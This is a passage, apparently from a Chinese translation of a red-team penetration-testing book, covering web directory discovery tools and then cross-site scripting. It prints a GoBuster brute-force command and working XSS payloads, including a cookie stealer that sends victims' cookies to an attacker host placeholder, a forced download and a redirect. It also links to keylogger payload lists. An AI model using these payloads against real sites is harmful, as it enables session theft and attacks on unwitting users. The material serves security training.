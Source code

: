 ![](img/3-5.png)

盲目攻击网站之前了解目标应用程序可以帮助你提供更好的思路。这也有助于入侵可能有 WAF 的目标站点，允许你使用更多的攻击手法。

### 网络探测
在之前的书中，我们详细介绍了如何使用 Burp Suite 以及如何对站点进行渗透测试。我们将跳过很多设置基础知识，并将更多精力放在攻击网站上。

在这一点上，我们将假设你已经设置好了 Burp Suite（免费或付费），并且你使用的是本书的 Kali 镜像。一旦我们了解了底层系统，我们就需要识别所有端点。我们仍然需要运行与之前相同的探测工具。

* [Burp Suite](https://portswigger.net/burp)
    * 爬虫：在免费和付费版本中，Burp Suite 都有一个很棒的爬虫工具。
    * 内容探测：如果你使用的是付费版本的 Burp Suite，那么最受欢迎的探测工具之一就是 Discover Content。这是一个智能高效的工具，可以查找目录和文件。你还可以为扫描指定多种不同的配置。
    * 主动扫描：运行所有参数的自动漏洞扫描并测试多个 Web 漏洞。
* [OWASP ZAP](http://bit.ly/2IVNaO2)
    * 类似于 Burp，但完全开源和免费。具有类似的探测和主动扫描功能。
* Dirbuster
    * 一个很久以前就被开发出的旧工具，用于发现 Web 应用程序的文件/文件夹，但现在仍然可以顺利的完成工作。
    * 目标网址：http://chat:3000 
    * 字典：
        *  /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
* [GoBuster](https://github.com/OJ/gobuster)
    * 非常轻量级、快速的目录和子域名爆破工具
    * gobuster -u http://chat:3000 -w /opt/SecLists/Discovery/Web-Content/raft-small-directories.txt -s 200,301,307 -t 20

你的字典列表非常重要。我最喜欢使用的一个汇总的字典列表是一个名为 raft 的旧字典，它是许多开源项目的集合。你可以在这里找到这些和其他有价值的字典列表：https://github.com/danielmiessler/SecLists/tree/master/Discovery/Web-Content （已包含在本书的 Kali 镜像中）。

现在既然我们已经完成了概述，让我们进行一些攻击吧。从红队的角度来看，我们正在寻找可以主动攻击的漏洞，并为我们提供最大的帮助。如果我们正在进行评估或渗透测试，我们可能会报告漏洞扫描程序中的 SSL 问题，默认 Apache 页面或其他漏洞扫描程序发现的不可利用的漏洞等。但是，在我们的红队工作中，我们可以完全忽略这些，并专注于能使我们获得高级访问权限，shell 或 转储 PII 的攻击。

### XSS 跨站脚本攻击
在这一点上，我们都曾经见过并利用过跨站点脚本攻击（XSS）。使用传统的 XSS 攻击测试网站上的每个变量的方式：<script>alert(1)</script>，对于漏洞赏金平台来说可能很有用，但我们可以做更多吗？我们可以使用哪些工具和方法来更好地利用这些攻击？

我们都知道 XSS 攻击是客户端攻击，允许攻击者创建特定的 Web 请求从而将恶意代码注入响应中。这通常可以通过客户机和服务器端的适当输入验证来修复，但这绝不是那么容易。为什么这么说？因为 XSS 漏洞由多种原因造成的。从编码不规范到不理解框架，有时候应用程序变得过于复杂，就很难理解一个输入点的安全性。

因为仅仅弹窗确实没有真正的危害，让我们从一些基本类型的 XSS 攻击开始：

* Cookie 窃取XSS：
```HTML
<script>document.write('<img src="http//<YourIP>/Stealer.php?cookie='%2B document.cookie %2B '"/>');</script>
```
* 强制下载文件：
```HTML
<script>var link = document.createElement('a'); link.href ='http://the.earth.li/~sgtatham/putty/latest/x86/putty.exe'; link.download = '';document.body.appendChild(link); link.click();</script>
```
* 重定向用户：
```HTML
<script>window.location = "https://www.youtube.com/watch?v=dQw4w9WgXcQ";</script>
```
* 其他脚本以启用键盘记录器，拍照等：
    *  http://www.xss-payloads.com/payloads-list.html?c#category=capture
